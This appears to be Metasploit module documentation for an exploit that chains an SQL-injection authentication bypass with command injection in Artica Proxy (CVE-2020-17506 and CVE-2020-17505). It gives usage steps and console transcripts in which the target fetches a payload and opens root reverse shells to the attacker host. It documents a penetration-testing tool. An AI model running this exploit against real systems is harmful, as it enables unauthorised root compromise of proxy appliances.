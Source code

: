 ## Vulnerable Application

### Introduction

This module exploits two vulnerabilities on Artica Proxy (version 4.30.000000 and lower),
an authentication bypass and an authenticated remote code execution, the authentication bypass
is due to an SQL injection vulnerability present in fw.login.php.

Because the application runs in virtual appliance, successful exploitation yields code execution
as root on the target system.

## Verification Steps

1. Start `msfconsole`
2. Do: `use exploit/linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection`
3. Do: `set RHOSTS [RHOSTS]`
4. Do: `check`
5. Verify if `check` detects vulnerable hosts as it should
6. Do: `exploit`
7. Verify if the payload was successfully executed on the target (that you get a session)

## Options

### PHPSESSID

The session cookie, if you have one.
If not set, the module will attempt to bypass authentication using the authentication bypass vulnerability.

## Scenarios

### Artica Proxy 4.26, 4.30.000000

#### Using a dropper / getting a native meterpreter shell (TARGET being Linux Dropper)

```
msf5 exploit(linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Attempting to bypass authentication via CVE-2020-17506 (SQL injection)
[+] Session cookie : 9a171f6964f8b35f53abf652d2b28748
[*] Using URL: http://0.0.0.0:8080/f0Y1VFKK4nAW
[*] Local IP: http://192.168.1.222:8080/f0Y1VFKK4nAW
[*] Attempting to gain RCE via CVE-2020-17505
[*] Client 192.168.1.223 (Wget/1.20.1 (linux-gnu)) requested /f0Y1VFKK4nAW
[*] Sending payload to 192.168.1.223 (Wget/1.20.1 (linux-gnu))
[*] Meterpreter session 1 opened (192.168.1.222:4444 -> 192.168.1.223:48330) at 2020-08-30 16:45:58 +0200
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : www.red0xff.co
OS           : Debian 10.2 (Linux 4.19.0-6-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > shell
Process 2724 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
```



#### Cmd payload : `cmd/unix/reverse_perl`

```
msf5 exploit(linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection) > 
msf5 exploit(linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Attempting to bypass authentication via CVE-2020-17506 (SQL injection)
[+] Session cookie : 1049da6bfa8e6217072f810a9b62ff7b
[*] Attempting to gain RCE via CVE-2020-17505
[*] Command shell session 7 opened (192.168.1.222:4444 -> 192.168.1.223:48466) at 2020-08-30 16:50:15 +0200

id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

#### Bypassing authentication

```
msf5 exploit(linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Attempting to bypass authentication via CVE-2020-17506 (SQL injection)
[+] Session cookie : dcccb1ba861a87b56a2f92febf273846
[*] Exploit completed, but no session was created.
msf5 exploit(linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection) > 
```
